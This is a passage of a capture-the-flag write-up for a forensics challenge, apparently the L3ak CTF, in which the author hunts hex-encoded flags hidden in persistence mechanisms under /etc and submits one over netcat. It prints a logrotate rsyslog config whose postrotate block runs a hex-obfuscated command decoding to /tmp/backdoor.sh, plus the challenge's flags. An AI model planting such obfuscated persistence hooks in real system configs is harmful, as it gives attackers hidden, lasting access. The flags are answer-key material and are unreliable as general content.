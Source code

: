 ### Flag 8

Running out of ideas, I did a gamer move and grepped the hex values of `L3ak` to find some easy hits. Guess what, it worked and the 8th flag can be found at `/etc/logrotate.d/rsyslog/`. 

```
└─$ grep -r "4c33616b" *   
logrotate.d/rsyslog:                # Regular maintenance script version 4c33616b7b3130675f376834375f35683331317d
update-motd.d/00-header:# echo '4c33616b7b35683331315f30665f3768335f4434797d0a' | xxd -r -p
```

In the `rsyslog` file, the 8th flag can be found encoded in hex `L3ak{10g_7h47_5h311}`.

```
/var/log/syslog
/var/log/mail.info
/var/log/mail.warn
/var/log/mail.err
/var/log/mail.log
/var/log/daemon.log
/var/log/kern.log
/var/log/auth.log
/var/log/user.log
/var/log/lpr.log
/var/log/cron.log
/var/log/debug
/var/log/messages
{
	rotate 4
	weekly
	missingok
	notifempty
	compress
	delaycompress
	sharedscripts
	postrotate
		/usr/lib/rsyslog/rsyslog-rotate
                # Regular maintenance script version 4c33616b7b3130675f376834375f35683331317d
                $(echo -n '2f746d702f6261636b646f6f722e7368' | xxd -r -p)
	endscript
}
```

### Final flag

With all the mini flags, the real flag can be obtained.

```
└─$ nc 35.229.44.203 3666
Welcome to the ultra-realistic Flag Finder Simulation!
A stealthy hacker has compromised this system and deployed 8 cunning persistence mechanisms.
Your mission, should you choose to accept it, involves the /etc directory, a known haven for configuration treachery.
Each mechanism is cleverly referencing /tmp/backdoor.sh – a nefarious script, no doubt.
Alongside each persistence mechanism, a flag is concealed. Secure all 8 to halt the hacker’s scheme.
Report back with each flag as you uncover them. Each mini flag has L3ak{} format.
Remember: After securing the 8 mini flags, the ultimate flag shall unveil itself.
Gear up, remain vigilant, and good luck!

Flags found: 0/8.

Submit a mini flag: 
L3ak{10g_7h47_5h311}  
Correct! Mini flag accepted.
```
